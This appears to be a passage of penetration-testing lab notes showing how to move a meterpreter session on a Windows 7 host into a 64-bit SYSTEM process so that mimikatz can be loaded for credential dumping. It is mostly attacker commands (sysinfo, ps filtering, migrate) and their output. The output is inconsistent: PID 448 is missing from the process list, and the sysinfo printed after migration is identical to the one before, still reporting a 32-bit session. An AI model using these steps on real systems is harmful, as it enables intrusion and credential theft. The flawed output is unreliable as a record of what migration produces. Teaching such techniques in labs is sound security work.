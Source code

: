     In order to start using *mimikatz* and get the best out of it, it is important to have the current meterpreter session running on a 64-bit process. This allows it to successfully load all *mimikatz* features without any issues.

    We have already seen how to check the current meterpreter architecture, but we will briefly recap it in the next section.
      We can verify this by running `sysinfo`:
        ```
        meterpreter > sysinfo
        Computer         : ELS
        OS               : Windows 7 (Build 760, Service Pack 1).
        Architecture     : x64 (Current Process is WOW64)
        System Language  : en_US
        Domain           : WORKGROUP
        Logged On Users  : 4
        Meterpreter      : x86/win32
        ```

      As we can see, we are currently running meterpreter on a 32 bits process

      We have to migrate into a 64 bit process.
      Moreover, we need a process with the same privileges of the current session.
      Since we are currently running on `SYSTEM` privileges, we can list them with the following command:
        ```
        meterpreter > ps -A x86_64 -s
        Filtering on arch...
        Filtering on SYSTEM processes...

        Process List
        ============

          PID   PPID  Name        Arch    Session   User                 Path
          ---   ----  ----        ----    -------   ----                 ----
          280   4     sms.exe     x64     0         NT AUTHORITY\SYSTEM C:\Windows\System32\smss.exe
          308   512   svchost.exe x64     0         NT AUTHORITY\SYSTEM C:\Windows\System32\svchost.exe
          360   348   csrss.exe   x64     0         NT AUTHORITY\SYSTEM C:\Windows\System32\csrss.exe
        ```

        Description:
        - `-A` we specify the architecture
        - `-s` we list only SYSTEM process

      Now we have to select one of the process listed and run `migrate [PID]`
      After that we will run on a 64-bits process and we will still have SYSTEM privileges on the machine.
        ```
        meterpreter > migrate 448
        [*] Migrating from 1668 to 448...
        [*] Migration completed successfully.
        meterpreter > getuid
        Server username: NT AUTHORITY\SYSTEM
        meterpreter > sysinfo
        Computer         : ELS
        OS               : Windows 7 (Build 760, Service Pack 1).
        Architecture     : x64 (Current Process is WOW64)
        System Language  : en_US
        Domain           : WORKGROUP
        Logged On Users  : 4
        Meterpreter      : x86/win32
        ```
